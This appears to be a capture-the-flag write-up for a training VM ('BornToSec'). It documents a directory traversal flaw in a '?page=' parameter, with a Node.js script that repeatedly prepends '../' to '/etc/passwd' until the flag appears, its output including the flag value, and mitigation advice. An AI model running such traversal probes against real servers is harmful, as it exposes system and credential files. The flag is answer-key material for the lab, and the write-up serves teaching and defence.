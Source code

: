 # Directory traversal breach

## How we found the breach

Sources:

[portswigger →](https://portswigger.net/web-security/file-path-traversal)

[owasp →](https://owasp.org/www-community/attacks/Path_Traversal#:~:text=Cookie%3A%20TEMPLATE%3D../../../../../../../../../etc/passwd)

[infosecinstitute →](https://resources.infosecinstitute.com/topic/php-lab-file-inclusion-attacks/)

From the website's home page, after pressing the `Sign In` button we're redirected to `http://IP/?page=signin`.

Depending on how the server handles the params parsing we could pass any filename containing absolute paths to other file from the server file system.

A commonly hacked sensitive file is the `/etc/passwd` containing a trace of every computer registered user.

[More information on /etc/passwd →](https://www.ibm.com/docs/bg/aix/7.2?topic=passwords-using-etcpasswd-file)

### Testing the /etc/passwd access

By hitting `http://IP/?page=/etc/passwd` the server returns a page displaying an alert modal containing the label `WTF`:

```html
<script>alert('Wtf ?');</script><!DOCTYPE HTML>
<html>
	<head>
		<title>BornToSec - Web Section</title>
		<meta http-equiv="content-type" content="text/html; charset=utf-8" />
		<meta name="description" content="" />
		<meta name="keywords" content="" />
		<!--[if lte IE 8]><script src="js/html5shiv.js"></script><![endif]-->
		<script src="js/jquery.min.js"></script>
		<script src="js/skel.min.js"></script>
		<script src="js/skel-layers.min.js"></script>
		<script 
```

We can see that the server appends a script tag at the beginning of the page.

We need to dig deeper, considering that the served page could be located recursively anywhere in folders.

The required file path could have infinite number of `..`, this is why we'll need to code a small tool.

### The script

The following script will download the returned page for any `../<...>/../etc/passwd` combination until he found within the first script tag the string `flag`.

Note: This script assumes that the server will send back the flag in the first script tag, and even more that the flag will be displayed using the `flag` appellation.

```ts
// @ts-check
import got from 'got'
import * as cheerio from 'cheerio'

const searchedFile = `/etc/passwd`
const baseUrl = `http://192.168.56.101/?page=`

async function traverseDirectory(query) {
    const url = baseUrl + query;
    const htmlPage = await got(url).text()

    const $ = cheerio.load(htmlPage)
    const firstScriptTag = $('script').first().text();

    if (firstScriptTag.match(/flag/)) {
        console.log(firstScriptTag)
        return
    } else {
        console.log(firstScriptTag)
        const newQuery = `../${query}`
        return traverseDirectory(newQuery)
    }
}

await traverseDirectory(searchedFile)
```

By running the script we get the below output:

```bash
node script.js 

http://192.168.56.101/?page=../etc/passwd
alert('Wtf ?');
http://192.168.56.101/?page=../../etc/passwd
alert('Wrong..');
http://192.168.56.101/?page=../../../etc/passwd
alert('Nope..');
http://192.168.56.101/?page=../../../../etc/passwd
alert('Almost.');
http://192.168.56.101/?page=../../../../../etc/passwd
alert('Still nope..');
http://192.168.56.101/?page=../../../../../../etc/passwd
alert('Nope..');
http://192.168.56.101/?page=../../../../../../../etc/passwd
alert('Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 ');
```

From the output we can see that passing the query `../../../../../../../etc/passwd` returns a flag!

## How to exploit the breach

By being able to browse the server file system the hacker could steal any kind of sensitive information. He could also be able to execute previously uploaded script inside the server file tree.

[See file upload breach →](../../php_script_as_jpg_metadata_file_upload_breach/Ressources/Explanation.md)

## How to avoid the breach

The solutions to avoid this breach are quite similar to those for [Redirect security breach](../../query_param_driving_redirection/Ressources/Explanation.md). The server should not build a path to local filesystem with user-supplied input.

If it's necessary for the application to allow users to access files on the filesystem of the server, the server should validate the path sent by the user, to only allow access to authorized directories.
